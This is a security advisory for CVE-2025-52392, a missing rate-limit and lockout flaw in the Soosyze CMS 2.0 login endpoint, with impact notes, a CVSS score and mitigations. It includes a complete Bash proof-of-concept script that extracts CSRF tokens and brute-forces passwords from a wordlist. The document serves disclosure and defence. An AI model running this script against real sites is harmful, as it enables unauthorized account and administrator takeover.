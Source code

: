 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

**Vendor:** Soosyze

**Product:** Soosyze CMS

**Version Affected:** 2.0 (confirmed)

**Component:** /user/login – Authentication Controller

**CWE:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

**Attack Vector:** Remote (network exploitable)

### Description

Soosyze CMS 2.0 contains a vulnerability in the /user/login authentication endpoint that allows unlimited credential-guessing attempts due to the absence of rate limiting and account lockout mechanisms.

A remote, unauthenticated attacker can submit unlimited HTTP POST requests with varying passwords for a known username/email without triggering any throttling, delay, or lockout.

The vulnerability can be exploited using automated tools such as THC Hydra, Burp Suite Intruder, or custom scripts, enabling brute-force attacks that may lead to compromise of administrative accounts.

Testing confirmed that the server issues a valid login form and CSRF token on every request, and accepts repeated authentication attempts without introducing timing penalties or invalidating sessions.

No vendor patch or mitigation was available at the time of publication.

### Impact

Successful exploitation may allow:

* Account Compromise: Unauthorized access to valid user accounts.
* Administrative Takeover: Full compromise of the CMS instance if administrative credentials are obtained.
* Data Exposure/Modification: Unrestricted access to protected content and potential injection of malicious configurations or content.

### Attack Details

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): Required (R)

Scope (S): Unchanged (U)

Confidentiality (C): Low (L)

Integrity (I): Low (L)

Availability (A): None (N)

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
```

**CVSS v3.1 Base Score: 5.4 (Medium)**

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

**Steps to Reproduce**

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (e.g., test@test.com).
3. Prepare a password dictionary (e.g., rockyou.txt).
4. Execute the provided Bash PoC script to perform automated POST login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-13 a las 22.06.16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Mitigation

* Implement server-side rate limiting (e.g., maximum 5 failed attempts per minute per IP).
* Apply temporary account lockout after multiple failed attempts.
* Introduce CAPTCHA or other bot-mitigation mechanisms after repeated failed logins.
* Consider logging and monitoring repeated failed authentication attempts.

### Discoverer

Beatriz Fresno Naumova (beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
* NIST: [https://nvd.nist.gov/vuln/detail/CVE-2025-52392](https://nvd.nist.gov/vuln/detail/CVE-2025-52392)
* Public advisory: [https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392](https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392)
